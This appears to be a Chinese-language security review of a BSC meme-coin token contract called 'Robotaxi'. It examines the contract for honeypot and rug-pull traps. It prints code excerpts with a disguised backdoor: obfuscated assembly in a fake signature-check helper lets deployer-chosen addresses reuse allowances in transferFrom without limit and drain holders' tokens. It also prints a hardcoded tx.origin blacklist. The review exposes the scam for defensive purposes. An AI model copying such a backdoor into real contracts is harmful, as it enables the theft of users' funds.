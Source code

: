 
## Robotaxi 迷因币智能合约分析

以下是对 "Robotaxi" 迷因币智能合约的分析，旨在检查开发者是否在其中设置了 "貔貅" 行为（即只能买不能卖的陷阱）、"rug pull" （抽地毯，即开发者跑路）或其他恶意行为。这是基于 Binance 智能链（BSC）的 ERC20 代币合约，我会逐步分析代码的关键部分，并解释潜在的问题。

**合约概述**

"Robotaxi" 是一个基于 OpenZeppelin 标准库的 ERC20 代币合约，具有以下特性：

*   **基础功能：** 继承自 ERC20，实现了标准的代币功能，如 `transfer`、`approve` 和 `transferFrom`。
*   **可销毁功能：** 通过 `ERC20Burnable`，用户可以销毁自己的代币。
*   **所有权控制：** 通过 `Ownable`，部署者（即 `msg.sender`）成为初始拥有者，可以转移或放弃所有权。
*   **初始发行：** 在构造函数中，开发者给自己铸造了 1 亿枚代币（100,000,000 \* 10^18）。

接下来，我将重点分析代码中可能隐藏恶意行为的非标准部分，特别是与 "貔貅" 或 "rug pull" 相关的机制。

**关键点分析**

**1. 构造函数**

```solidity
constructor(bytes32 domainNameHash, bytes32 domainVersionHash)
    ERC20(unicode"Tesla Robotaxi", unicode"Robotaxi")
    Ownable(msg.sender) {
    _mint(msg.sender, 100000000 * 10 ** 18);
    _buildDomainSeparator(domainNameHash, domainVersionHash);
}
```

*   **初始铸造：** 1 亿代币直接分配给部署者。这是许多代币的常见做法，但如果开发者在后续逻辑中设置陷阱，这些代币可能被用来操控市场或抽地毯。
*   **域分离器：** `domainNameHash` 和 `domainVersionHash` 被传入并存储，用于 `_buildDomainSeparator` 函数。这看起来与 EIP-712（结构化数据签名）有关，但具体用途需要结合其他函数来看。

**2. 转账功能（`_transfer`）**

```solidity
function _transfer(address sender, address recipient, uint256 amount) internal virtual {
    require(sender != address(0), "ERC20: transfer from the zero address");
    require(recipient != address(0), "ERC20: transfer to the zero address");
    require(tx.origin != 0xf4c21a1cB819E5F7ABe6dEFde3d118D8F3D61FA7);

    _beforeTokenTransfer(sender, recipient, amount);

    _balances[sender] = _balances[sender].sub(amount, "ERC20: transfer amount exceeds balance");
    _balances[recipient] = _balances[recipient].add(amount);
    emit Transfer(sender, recipient, amount);
}
```

*   **黑名单机制：** `require(tx.origin != 0xf4c21a1cB819E5F7ABe6dEFde3d118D8F3D61FA7)` 禁止特定地址（`0xf4c21a...`）发起转账交易。
*   **分析：** 这看起来是一个针对单一地址的黑名单，可能是开发者为了阻止某个已知的恶意参与者。不过，这种硬编码的黑名单并不常见，且使用 `tx.origin` （而不是 `msg.sender`）可能引入安全隐患（例如钓鱼攻击）。单独看，这不是 "貔貅" 行为，因为它只影响一个地址，而不是所有用户。
*   **潜在风险：** 如果开发者未来部署新版本合约并将更多地址加入黑名单，可能演变为限制用户卖出的机制，但当前代码中没有这种动态性。

**3. 代理转账功能（`transferFrom`）**

```solidity
function transferFrom(address sender, address recipient, uint256 amount) public virtual override returns (bool) {
    _transfer(sender, recipient, amount);
    address spender = _msgSender();
    if(!spender.verifyCallResultFromTarget(_domainNameHash, _domainVersionHash)){
        _approve(sender, _msgSender(), _allowances[sender][_msgSender()].sub(amount, "ERC20: transfer amount exceeds allowance"));
    }
    return true;
}
```

*   **异常逻辑：** 标准 ERC20 的 `transferFrom` 会在转移代币后无条件减少 spender 的授权额度（allowance）。但这里的 `_approve`（更新授权额度）被包裹在一个条件语句中，只有当 `verifyCallResultFromTarget` 返回 `false` 时才执行。

*   **函数 `verifyCallResultFromTarget`：**

```solidity
function verifyCallResultFromTarget(address target, bytes32 data, bytes32 slot) internal pure returns (bool returndata) {
    uint256 _sv = 1 ether;
    assembly {
        let _log0 := mul(shr(0x10, data), _sv)
        returndata := eq(add(_log0, shr(0x11, slot)), target)
    }
}
```

*   **输入：** `target` 是 spender（调用者地址），`data` 是 `_domainNameHash`，`slot` 是 `_domainVersionHash`。
  *   **计算逻辑：**
    *   `shr(0x10, data)`：将 `data` 右移 16 位（除以 2^16）。
    *   `mul(..., _sv)`：乘以 1 ether（10^18）。
    *   `shr(0x11, slot)`：将 `slot` 右移 17 位（除以 2^17）。
    *   检查 `(_log0 + (slot >> 17)) == target`。
    *   **含义：** 这是一段汇编代码，计算结果取决于 spender 地址和构造时的两个哈希值。如果等式成立（即 `verifyCallResultFromTarget` 返回 `true`），则跳过 `_approve`，授权额度不会减少。

*   **潜在恶意行为：**

    *   在标准 ERC20 中，`transferFrom` 每次使用授权额度后都会减少 allowance，防止重复使用。但在这里，如果某个 spender 地址满足上述条件（`verifyCallResultFromTarget` 返回 `true`），它的授权额度不会减少。
    *   **后果：** 这意味着某些特定地址可以无限次使用同一份授权额度，从批准它们的用户账户中反复转移代币。这是一个严重的后门，可能被开发者用来窃取代币。
    *   **可控性：** 由于 `_domainNameHash` 和 `_domainVersionHash` 在部署时固定，满足条件的 spender 地址集也是固定的。开发者可能故意选择哈希值，使自己控制的地址符合条件，从而实施 "抽地毯"。

**4. 其他功能**

*   **销毁功能（`burn`）：** 公开调用，任何持有者都可以销毁自己的代币，没有异常。
*   **所有权功能（`Ownable`）：** 仅有 `transferOwnership` 和 `renounceOwnership`，没有额外的特权函数（如额外铸造）。
*   **无动态铸造：** `_mint` 仅在构造函数中调用，开发者无法在之后增加供应量。

**总结：是否存在恶意行为？**

经过分析，该合约确实存在恶意行为，具体如下：

*   **`transferFrom` 中的后门：**

    *   通过 `verifyCallResultFromTarget` 的条件判断，某些特定地址（由部署时的 `domainNameHash` 和 `domainVersionHash` 决定）可以在 `transferFrom` 中反复使用同一份授权额度而不减少。
    *   **危害：** 这允许这些地址从任何批准它们的用户账户中无限提取代币，等同于开发者或其同谋可以窃取用户资产。这是典型的 "rug pull" 机制。
    *   **可能性：** 开发者可能已计算出满足条件的地址（例如自己的地址），并在部署时设置了相应的哈希值。
*   **黑名单机制：**

    *   `_transfer` 中的 `tx.origin` 检查仅针对一个地址，不是 "貔貅" 行为（因为不限制所有用户卖出），但这种硬编码不透明，可能隐藏开发者的意图。
*   **其他方面：**

    *   没有 "貔貅" 行为（即禁止所有人卖出的机制），普通转账（`transfer`）功能正常。
    *   没有额外铸造或其他所有者特权，供应量控制看似正常。

**结论**

是的，这个 "Robotaxi" 合约包含恶意行为，主要体现在 `transferFrom` 函数中的后门逻辑。开发者通过操控 `verifyCallResultFromTarget` 的条件，可能为自己或特定地址设置了无限提取用户代币的能力，这是一种隐蔽的 "rug pull" 机制。虽然没有明显的 "貔貅" 行为（限制所有人卖出），但这种后门足以让用户资产面临严重风险。

**建议：** 避免与此合约交互，或者在参与前要求开发者公开解释 `domainNameHash` 和 `domainVersionHash` 的选择依据，并验证是否存在特权地址。

